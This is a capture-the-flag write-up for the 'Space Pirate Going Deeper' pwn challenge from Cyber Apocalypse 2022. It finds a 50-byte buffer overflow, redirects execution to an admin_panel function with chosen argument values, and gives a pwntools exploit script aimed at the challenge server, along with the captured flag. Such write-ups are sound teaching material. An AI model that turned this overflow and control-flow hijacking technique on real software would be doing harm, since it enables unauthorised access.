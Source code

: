 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2022 | Space Pirate Going Deeper Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2022
parent: cyber_apocalypse_2022
category: pwn
challenge: Space Pirate Going Deeper
tags: "pwn, taz, bof, python"
date: 2022-05-21T00:00:00+00:00
last_update: 2022-05-21T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2022</h1>

## Space Pirate Going Deeper
> Solved by:  Taz34

Here we have a 64 bit binary which takes input as follows:

![](https://i.imgur.com/q2tXif4.png)

After playing around with the binary i came across a Segmentation fault, hence we have a buffer overflow exploit here.

![](https://i.imgur.com/u0IXBic.png)

So I found the offset to be 50. 

Now to understand the working of the binary I opened the binary in Cutter
https://cutter.re/

Here we came across the main function and another interesting function named admin_panel
In the admin_panel function we came across an if statement:

![](https://i.imgur.com/w6r55nM.png)

From here we can understand that, if we want to print the flag i.e. `system(``"``cat flag``"``);`
we need to make the if condition false.

So now we can create the payload

```python
payload = b'A'*offset + ret_addr_main + ret_addr_admin_panel + if_arg1 + if_arg3 + if_arg3
payload = b'A'*50 + p64(0x400b9a) + p64(0x400b46) +p64(0xdeadbeef) + p64(0x1337c0de) + p64(0x1337beef)
```

Now we have our payload set, hence the final script:

```python
from pwn import *
#elf = ELF('./sp_going_deeper')
#p = elf.process()
p = remote("138.68.161.126", 31239) 

payload = b'A'*50 + p64(0x400b9a) + p64(0x400b46) +p64(0xdeadbeef) + p64(0x1337c0de) + p64(0x1337beef)

p.sendline('1')
p.sendline(payload)
p.interactive()
```

![](https://i.imgur.com/jgsMkE9.png)


And here the flag is dumped.

```
Flag: HTB{no_n33d_2_ch4ng3_m3ch5_wh3n_u_h4v3_flow_r3d1r3ct}
```